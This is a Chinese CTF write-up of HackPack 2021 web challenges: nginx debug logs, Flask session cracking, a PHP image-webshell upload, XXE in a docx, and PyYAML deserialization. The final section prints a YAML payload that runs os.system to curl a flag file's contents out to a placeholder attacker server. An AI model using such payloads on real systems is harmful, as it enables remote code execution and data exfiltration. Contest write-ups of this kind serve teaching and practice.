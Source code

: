 ﻿---
title: HackPack 2021
categories: 赛题wp
---

# 前言
这次 web挺基础的，就是想的多了，flask-session那道一直往JWT那里靠，暴力破解密钥的

---
# "N"ot "G"am"I"ng a"N"ymore in "X"mas

- 考点：nginx有时有些难以挖掘的 bug，需要看到更详细的 `debug 级别的日志`

打开题目：

![](https://img-blog.csdnimg.cn/20210418222245962.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
修改 `debug=1`

<!--more-->
![](https://img-blog.csdnimg.cn/20210418222645287.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
访问那个路径：

![](https://img-blog.csdnimg.cn/20210418222716676.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# All-about-resetting
- Flask-session


点击 login 没有反应：

![](https://img-blog.csdnimg.cn/20210418222804463.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
 
点击忘记密码，抓包查看：发现`npantel@ncsu.edu` 

![](https://img-blog.csdnimg.cn/20210418222842916.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
填入这个邮箱抓包：发现跳转到 `/reset2`

![](https://img-blog.csdnimg.cn/20210418222919593.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
返回：

![](https://img-blog.csdnimg.cn/2021041822293999.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
到这里围绕的地方可以是 `伪造session`，这里session的形式很像jwt，围绕jwt做了很长时间不对

然后就用 `flask-unsign` 去解 cookie：

![](https://img-blog.csdnimg.cn/20210418223017154.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
得到答案，提交得到 flag：

![](https://img-blog.csdnimg.cn/20210418223038995.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# Indead
- 文件上传


正常上传文件

![](https://img-blog.csdnimg.cn/20210418223250347.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
抓包找到路径，猜一波：获得flag.txt

![](https://img-blog.csdnimg.cn/20210418224728559.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


010打开后发现是 png，修改后缀：

![](https://img-blog.csdnimg.cn/20210418223509171.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

直接是假 flag

访问 `robots.txt` (一定要养成习惯)

![](https://img-blog.csdnimg.cn/20210418223559579.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

这肯定是源码泄露

根据上面上传过程中发现的 `core.php`,查看其源码：

![](https://img-blog.csdnimg.cn/20210418223632721.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
正常上传图片马，抓包看到路径，`eval被ban`

用 `system` 代替

![](https://img-blog.csdnimg.cn/20210418223658677.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
淦！一直以为这是个假flag

![](https://img-blog.csdnimg.cn/20210418223750282.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# Indead 2
- XXE

提示：flag.txt在/var/www/下（这不提示那就只能靠猜了）

比上题多了一个docx上传点，存在检测，不能上传其他文件

那就先正常上传一个docx：

![](https://img-blog.csdnimg.cn/20210418223833485.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
既然提到了xml就感觉是 xxe

众所周知，docx是个zip文件，当其被压缩时包含`xml文档`

![](https://img-blog.csdnimg.cn/20210418223858750.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
构造xxe：

![](https://img-blog.csdnimg.cn/2021041822391129.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
替换原来docx的 document.xml：

![](https://img-blog.csdnimg.cn/2021041822394429.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
成功外带出来

---
# Yaml(PyYaml反序列化)
- CVE-2020-1747
- 地址：https://yaml-2-json.ctf2021.hackpack.club/

[浅谈PyYAML反序列化漏洞](https://xz.aliyun.com/t/7923#toc-0)

>YAML是一种直观的能够被电脑识别的的数据序列化格式，容易被人类阅读，并且容易和脚本语言交互，YAML类似于XML，但是语法比XML简单得多，对于转化成数组或可以hash的数据时是很简单有效的。

![](https://img-blog.csdnimg.cn/20210418224026729.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210418224037439.png#pic_center)
抓包修改权限：

![](https://img-blog.csdnimg.cn/20210418224051217.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

开启 apache2 服务，此处需要公网

执行命令：
```
!!python/object/apply:os.system ["curl http://x.x.x.x/?`cat /tmp/flag.txt`"]
```
![](https://img-blog.csdnimg.cn/20210418232331253.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

查看apache2 的日志
![](https://img-blog.csdnimg.cn/20210418232303351.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)flag{Py_PyYaml_Yaml_Py}
